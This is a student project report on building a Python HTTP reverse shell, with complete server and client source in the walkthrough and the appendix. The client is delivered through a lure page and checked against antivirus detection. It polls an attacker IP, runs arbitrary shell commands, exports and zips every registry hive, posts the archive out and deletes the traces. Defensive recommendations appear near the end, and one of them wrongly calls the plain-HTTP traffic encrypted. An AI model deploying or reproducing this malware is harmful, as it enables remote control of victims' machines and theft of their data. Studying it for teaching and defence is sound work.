

# Executive summary

For this project we were tasked with producing a Python reverse HTTP shell.
Following a server-client model, our payload allows the server to export the client's entire registry without an anti-virus flagging the process as malicious.
The exploit needs to be downloaded to the clients machine using a webserver hosted by the attacker.
In addition to this the exploit needs to be compiled to an executable.

# Introduction

## I. Problem Description

With this project multiple steps went into it.
First, an understanding of how socket programming works is required.
In addition to socket programming, a method to compile the client's source code to an executable is also needed.
Once the basic connection was established between the server and client the command, from the server, to export the registry is required by the client's payload.
After exporting the registry to text files, a process to export the data from the victims machine to the server will need to be implemented.
Optionally, we need the process to clean up traces of its work.
During the coding process it was imperative that we kept in mind that we could not be flagged by Windows Defender, Window's default anti-virus program.
The last hurdle, and the easiest, was establishing a simple web server to distribute the executable to the client's machine.

## II. Definition of Terms

### 1. Data exfiltration

Unauthorized copying, transfer or retrieval of data from a computer or server.

### 2. Web server

Software or hardware established to satisfy web requests.
It uses HTTP (Hypertext Transfer Protocol) to serve the files (such as text, images, video, and application data) to clients that request the data.
These files, with the aid of web languages HTML, JavaScript, CSS, form web pages such as **www.google.com** and **www.auburn.edu**.

### 3. Windows executable (.EXE)

An windows executable is a program file capable of running on Microsoft Windows (32-bit or 64-bit).

### 4. Reverse shell

A type of shell where target machine communicates back to an attacking machine listening on a port for the connection.

### 5. Anti-virus software (anti-malware)

A software that detects, prevents, and removes viruses, worms, and other malware from a computer.

# Methods

## I. Code Walkthrough

### 1. Executable file conversion

> "PyInstaller freezes (packages) Python applications into stand-alone executables..."

Using *PyInstaller* we are able to compile our client module into a stand alone executable
that will run regardless if Python or the dependencies are installed on the victim system.

```bash
pyinstaller --onefile client.py
```

Using the `--onefile` flag, PyInstaller compiles the executable statically, meaning all the libraries that it uses
are apart of the final executable instead of being saved as separate library files to be linked dynamically.

If we did not provide the `--onefile` flag, we would have to transfer over any needed libraries required by the final executable.
For instance, running `pyinstaller client.py` produces a **python37.dll**, **libssl-1_1.dll**, and others. Since we are trying to produce an executable that is stealthily it is better to link all these files statically, especially since we do not know if they will be on the final machine or not.

### 2. Webserver setup

Since the main objective of this project was to build a Python platform that can perform a reverse shell and not to actually convince the user to download a malicious program we decided simple to use the default http server built into Python.

```bash
python3 -m http.server
```

By default without a provided index.html the webserver will display its current working directory.

Therefore, to make the website more "authentic", we created a very basic index.html to allow the "user" easier access to downloading the payload. Below is our index.html. As one can see it is just a simple relative link to the payload.

``` html
<center>
    <a href="./dist/client.exe">Special!</a>
</center>
```

### 3. Python (windows executable) download

On the victims machine if they direct the web browser of their choice to
the attacker's IP at port **8000** they can access the web server.
For example when running our tests my attacker's IP was **10.211.55.20**. Therefore, to access the web server the victim would need to go to **<http://10.211.55.20:8000>**.
From there they can click the *Special!* link and accept the download.

### 4. Python (windows executable) evasion

During the download Windows Defender should not flag the executable as malicious.
When checking our executable against Virus Total, a popular site to see if a file is malicious or not, only 2 out of 69 popular anti-virus providers flagged the payload.



However, when executing the payload Windows will raise a pop-up.
This pop-up warns the user that this executable is not signed and cannot be verified.
Most applications are signed by trusted certificate authorities to ensure that the application came from a trusted source.
However, many open source projects do not have the funding to buy signatures so it is not uncommon for non-malicious files to not be signed.

### 5. Python (windows executable) execution

Once the payload is executed on the victim's machine it immediately sends a `GET` request to the attacker.
The Python library *requests* was used to aid in all HTTP related tasks.

```python
IP = 'http://' + '172.19.69.245' + ':8080'
...
req = requests.get(IP)
command = req.text
```

Once that `GET` request is received by the attacker its `ReverseShellHandler` which is currently serving port 8080 will be called.
If the `ReverseShellHandler` class provides an implementation for `GET`, called `do_GET(self)`, the `ReverseShellHandler` object will call it.

If the server is set to manual it will request input from the attacker.
Otherwise, the server will send `!` to the victim.

```python
def do_GET(self):
    """
    When the server is hit with a GET request
    it requires input from the attacker that will
    be sent back to the victims machine

    If manual, allow input from user
    If not manual, run registry export

    """

    if MANUAL:
        command = input(Fore.YELLOW + ">> ")
        print(Style.RESET_ALL)
    else:
        command = '!'

    # boilerplate http
    self.send_response(200)
    self.send_header("Content-type", "text/html")
    self.end_headers()

    # send command to victim machine
    self.wfile.write(command.encode())
```

Manual is determined by the amount of command line arguments send to **server.py** when it is ran.
By default server.py will always have one command line argument; the path of the running process.
If the attacker provides any commands at all manual will be set to `False` otherwise it is `True`.

```python
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False
```

### 6. Registry file export

If the victim's machine receives `!` from the server it will run the registry file export function, `pull_registry()`.
From there it uses the Windows batch command `reg export` to export the registry keys.
Each of the six hives will have be exported in separate commands.
For each `reg export` call a output file with the name of the hive is produced.
Immediately following the creation of the registry file it is sent to a zip file called **reg.zip**.
After the file is added to the zip archive, it is removed from the victims machine.

```python
def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)
```

### 7. Registry file exfiltration

After each hive is exported and added to the **reg.zip** archive, the zip file is sent back to the attacker's server with `send_file(command)`.

```python
# path to zip file containing reg keys, start with `^ `
send_file(f'^ ./{zipfile}')
```

`send_file(command)` takes in a string that starts with a `^`.
The `^` character is used to determine which path the initial logic should take.
Note, this is the same reason for using `!` to tell the victims machine to run the registry export.
After the `^`, a file path should be provided.
This file path is the file that is being requested to be sent back to the attacker's server.
In the case for the registry export case the `command` variable would be equal to `^ ./reg.zip`.

The victim machine will use the requests library in the same way that it made its initial `GET` request except this time it will make a `POST` request and also state
that it is sending a file not just data. If the file path does not exist or could not be accessed the victim will send back an error message to notify the attacker something has gone wrong.

```python
def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')
```

After the file is sent back to the server, the server's `ReverseShellHandler` is called again.
However, this time it requires an implementation of `POST`; found in `do_POST(self)`.
In `do_post(self)` the server first checks to see if **/store** has been appended to the path.
If so, it is an indication that the victim's machine is sending back a file.

If this is the case, the server will need to use `cgi` to parse the request header's and then cgi's `FieldStorage` to parse the data being sent.
Without using `cgi` and `FieldStorage` it would be much more difficult to return the file to its original format and since a zip archive is a binary file it needs to have its header and footer information exact for the attacker to be able to unzip it.
After parsing the file, the server sends a reply back to the victim to notify that the data was received. The attacker can now unzip the **reg.zip** archive now on their machine and retrieve the victim's registry keys.

If **/store** is not appended, then the data sent by the victim would be printed to standard output on the attacker's machine.
For example, if manual mode was set the attacker could send `dir` to the victim and the victim would send to the attacker the current directory's contents. 
Once the data is received by the attacker it would be printed to his screen, giving him essentially a pseudo shell.

```python
def do_POST(self):
    """
    When the server is hit with a POST request it will
    first check to see if the path has been appended with /store
    meaning that it is sending a file back. If so the file parsed
    and returned to its original format using FieldStorage and is saved

    Otherwise if store is not in the path the data from the POST is printed out
    """
    if self.path == '/store':  # Check whether /store is appended or not

        ctype, _ = cgi.parse_header(
            self.headers['content-type'])
        if ctype == 'multipart/form-data':
            fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                'REQUEST_METHOD': 'POST'})

        # Here file is the key to hold the actual file, same key as the one set in client.py
        fs_up = fs['file']

        # Create new file and write contents into this file
        with open(fs_up.filename, '+wb') as o:
            o.write(fs_up.file.read())
            self.send_response(200)
            self.end_headers()
        return

    self.send_response(200)
    self.end_headers()

    # Define the length which means how many bytes the HTTP POST data contains
    length = int(self.headers['Content-Length'])

    postVar = self.rfile.read(length).decode()

    print(Fore.GREEN + postVar, end='')
    print(Style.RESET_ALL)
```

Returning to the victim's machine. After the call to `send_file(command)`, the victim's machine will then remove the `reg.zip` archive.

```python
    os.remove(f'./{zipfile}')
```

### 8. Reverse shell termination

After the call to `pull_registry()`, code execution returns to main.
Following the call `break` is called and the while loop exits killing the connection to the victim.

If anything other than `t`, `terminate`, or `!` was provided the while loop will run again to get an additional command from the server.

```python
def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)
```

## II. Screenshots

To preface the screenshot section, due to the fact that the screenshots were taken during a different session than when the package capture was taken the IPs of the attacker and defender differ. The attacker's IP is either **10.211.55.20** or **192.192.168.1.159** and the victim's IP is either **10.211.55.21** or **192.168.1.35**

### 1. Module Compilation

Below is a screen capture showing the command to compile the client module into an executable.
Following the compilation the executable is located in `./dist/client.exe`


### 2. Payload download

Below is a screenshot showing our malicious website.
As one can see it is extremely simple and most users would not click on the *Special!* link, but the purpose of this experiment is not to learn social engineering but a process to build an HTTP Reverse shell.


After clicking the **Special!** link the web browser of your choice, in this case it is the default browser *Edge*, will notify you that a download has begun.
We can choose to either *Run*, *Save*, or *Cancel* the executable.
The payload will work for all choices, except cancel.
Most uninformed users will most likely just *run* or *open* downloaded files.
Doing this saves the download to a temporary storage location that is usually cleared later.
This would be the most preferred option by the payload as it will simply be removed by the OS later on.


After the download completes, Windows Defender by default will scan the file to see if it is malicious.


If the file is clean the user will then be able to either choose multiple options *Run*, *Open folder*, or *View downloads*.
In this case *run* is preferred as it will automatically run the applications.
Users can also open the folder it is stored in an run it by clicking it as well; it will not affect the payloads execution.


Once the user executes the file Windows will notify the user that Defender stopped the application from running because it was unrecognized.
As discussed earlier this is due to the fact that the executable is not signed.


Users can ignore this error by clicking `More info` and then `Run anyway`


Back on the attacker's machine one can see the HTTP traffic made during the download of the client executable.
There is an initial `GET` request to the root directory of the web server.
Following that there is another `GET` request to the client executable stored in the *dist* directory.


Below is a screenshot of the malicious payload running.
The status code refers to the HTTP reply it got from the attacker.
The output could be suppressed but for development purposes it was left in.
The application can also run in windowed mode, but we found it was more suspicious as for every command it ran a new command line popped up.

### 3. Payload Execution


After the payload finishes execution the command line will, briefly look like the below image.
Following the data exfiltration the command line will automatically close.
The files saved on the machine will also be destroyed in the process.


In this image it shows the attacker's server and the HTTP requests that it received.
It will first receive an initial `GET` request from the client to which it responds with *!*.
Following that it receives a `POST` request from the client containing the registry archive.


In this image, the registry archive is shown.
After that, the archive is unzipped and its contents are listed.
Following this, the HKLM hive is printed out, albeit just the first few lines.


### 4. Packet Analysis

The first few packets that will have been recorded will be the downloading of the payload from the malicious website.
The packets relating to this, or stream, can be found in TCP stream 21.
Using Wireshark's filtering you can search for that with `tcp.stream eq 21`.
The initial TCP handshake between the client and webserver can be seen at packets 616 through 618.
The HTTP `GET` request to download the exploit is located at packet 619.
The first packet containing download information for the exploit is at packet 621 and goes through packet 1166.
After the download is finished the client sends an  `HTTP OK` to the server; located at packet 1167.


Following the download of the exploit the next interesting set of packets is the initial command sent by the attacking machine.
This collection of packets can be found in TCP stream 26 (`tcp.stream eq 26`).
The initial TCP handshake between the attacker's server and the victim's machine can be seen at packets 1612 through 1614.
Following the handshake there is an HTTP get command from the victim's machine at packet 1615.
This is notifying the attacker's server that it is ready for commands.
The attacker's server will then respond, in this case it responds with an  `HTTP OK` containing the command *!*; meaning to export the registry.
This command can be seen in packet 1618.


After the command from the attacker's server the victim's machine gets to work.
There will not initial be packets showing the progress of the victim's machine since it must first export the registry's hives and then save those archive those files.
After the victim's machine is finished with that process it will make another connection to the attacker's server.
The next grouping of connections can be seen at TCP stream 31.
The TCP connection can be seen at packet 2001 through 2003.
After the handshake the zip export starts at packet 2004.
Considering the size of the zip file there is a large amount of packets between the start of the export and the end.
The end of zip file download is at packet 25669.
Following that the `HTTP POST` request is sent to the attacker's server to notify it of the information it is receiving; this packet is number 25662.
After the attacker's server receives the zip file it responds to the victims machine with an  `HTTP OK` at packet 25673.


# Recommendations

There are a few recommendations that could be put in place to stop attacks like this.
One recommendation is to limit upload traffic.
For instance when testing on a fresh Windows 10 install the full registry export was 190 MB.
This is a slightly large file.
Now a days, it is not uncommon to have large file downloads, but usually upload files are smaller.
Granted, this would most likely result in a large amount of false positives.

Another recommendation would be to try to limit the number of ports machines on a network should talk to.
In this case it connected to the malicious web server at port 8000 and communicated to the attacker's server at port 8080.
Port 8080 is sometimes used as an alternative to HTTP.
Regardless, these are uncommon ports and limiting machines to the normal port ranges could limit malicious traffic.
However, a crafty malware writer could just use a well known port number to bypass this.
Traffic using HTTP could also be prohibited.

Most, if not all, websites now use HTTPS; a secure version of HTTP.
For our webserver and reverse shell the base version of HTTP was used.
Prohibiting machines from using HTTP connections would have protected them from this malware as well.
Malware writes can also use HTTPS but it is an additional hurdle to achieve.

Intrusion Detection Systems could be put in place on computers to interrogate traffic being sent over the network.
Since all the traffic for this attack was sent encrypted a thorough IDS would most likely flag the traffic.

Implementing policies on non-admin accounts that restrict downloading files or opening executable would also be beneficial to halting the execution of this payload.

The main solution to not executing malicious code is training the user base to not: visit sketchy websites, click sketchy downloads, run sketchy downloads, or ignore windows defender warnings.

At the end of the day most users would not fall for this exploit in its current state.
However, there still are uses, even in this state, that would download this executable and run it.
This fact is extremely dangerous as one weak chain can destroy an entire company.
Out of all the recommendations training users to have better cyber awareness should be top priority.

# Conclusion

Successfully running this payload requires multiple steps.
After developing the Python modules, the client module will need to be compiled to an executable capable of running on a Windows machine.
Following the compilation of the client module, it must be delivered to the victim's machine.
In our experiment we achieved delivery through a web server.
However, this could be accomplished the same way through an email to the victim, or if the victim downloaded the payload through a USB drive or network share.
Once the payload has been downloaded all the user has to do is run the exploit once.
After that, the server will have remote access to the users machine.

# Appendix

## I. Server Code

``` python
#!/usr/bin/env python3

import socketserver
import http.server
import cgi
from colorama import Fore, Back, Style
import sys

PORT = 8080
"""
Authors: Jordan Sosnowski and John Osho
Date: November 1, 2019

HTTP Reverse Shell Server
"""

# if user provides command line param manual true
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False


class ReverseShellHandler(http.server.BaseHTTPRequestHandler):
    """
    Custom Class that inherits from the base http handler

    Defines GET and POST methods

    """

    def do_GET(self):
        """
        When the server is hit with a GET request
        it requires input from the attacker that will
        be sent back to the victims machine

        If manual, allow input from user
        If not manual, run registry export

        """

        if MANUAL:
            command = input(Fore.YELLOW + ">> ")
            print(Style.RESET_ALL)
        else:
            command = '!'

        # boilerplate http
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

        # send command to victim machine
        self.wfile.write(command.encode())

    def do_POST(self):
        """
        When the server is hit with a POST request it will
        first check to see if the path has been appended with /store
        meaning that it is sending a file back. If so the file parsed
        and returned to its original format using FieldStorage and is saved.

        Otherwise if store is not in the path the data from the POST is printed out
        """
        if self.path == '/store':  # Check whether /store is appended or not

            ctype, _ = cgi.parse_header(
                self.headers['content-type'])
            if ctype == 'multipart/form-data':
                fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                    'REQUEST_METHOD': 'POST'})

            # Here file is the key to hold the actual file, same key as the one set in client.py
            fs_up = fs['file']

            # Create new file and write contents into this file
            with open(fs_up.filename, '+wb') as o:
                o.write(fs_up.file.read())
                self.send_response(200)
                self.end_headers()
            return

        self.send_response(200)
        self.end_headers()

        # Define the length which means how many bytes the HTTP POST data contains
        length = int(self.headers['Content-Length'])

        postVar = self.rfile.read(length).decode()

        print(Fore.GREEN + postVar, end='')
        print(Style.RESET_ALL)

def main():
    with socketserver.TCPServer(("", PORT), ReverseShellHandler) as httpd:
        print(f"serving at port {PORT}")
        try:
            httpd.serve_forever()
        except KeyboardInterrupt:
            print("Server is terminated")
            httpd.server_close()
```

## II. Client Code

``` python
#!/usr/bin/env python3

from zipfile import ZipFile
import http.client
import subprocess
import time
import requests
import os

IP = 'http://' + '172.19.69.245' + ':8080'

"""
Authors: Jordan Sosnowski and John Osho
Date: November 1, 2019

HTTP Reverse Shell Client
"""


def pull_registry():
    """
    Using windows reg export batch command exports all registry
    keys (other than ones requiring admin access like SAM). Following
    the exporting of the registry to files, those files will be zipped,
    removed, and then sent back to the server.
    """
    hives = ['HKEY_CLASSES_ROOT', 'HKEY_CURRENT_USER',
            'HKEY_LOCAL_MACHINE', 'HKEY_USERS', 'HKEY_CURRENT_CONFIG']

    zipfile = 'reg.zip'
    with ZipFile(zipfile, 'w') as zip:
        for key in hives:
            fname = f"bkReg_{key}.reg"
            filenamepath = f"{fname}"
            regkk = f"reg export {key} {filenamepath}"
            os.system(regkk)
            zip.write(filenamepath)
            os.remove(filenamepath)

    # path to zip file containing reg keys, start with `^ `
    send_file(f'^ ./{zipfile}')

    os.remove(f'./{zipfile}')


def send_file(command):
    """
    Sends requested file back to server

    args:
        command (str): string containing path to file
        to send to server

        uses format `^ file_path`

    """
    path = command[2:]
    print(f"Pulling file: {path}")

    if os.path.exists(path):
        url = IP + '/store'  # Append /store in the URL
        # Add a dictionary key where file will be stored
        files = {'file': open(path, 'rb')}
        r = requests.post(url, files=files)  # Send the file
        # requests library use POST method called "multipart/form-data"
    else:
        post_response = requests.post(
            url=IP, data='[-] Not able to find the file !')


def run_process(command):
    """
    Runs local process on machine

    args:
        command (str): command to run on machine

        i.e. ls, dir, cat /etc/hosts
    """

    print(f"Running command: {command}")

    # ouptut needs to be captures as we are sending the std out and error back
    cmd = subprocess.run(command, capture_output=True, shell=True)

    # only send out and err if they exist, limits post requests back to server
    out = cmd.stdout.decode()
    err = cmd.stderr.decode()
    if out:
        post_response = requests.post(
            url=IP, data=out)
    if err:
        post_response = requests.post(
            url=IP, data=err)


def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)


if __name__ == "__main__":
    main()
```
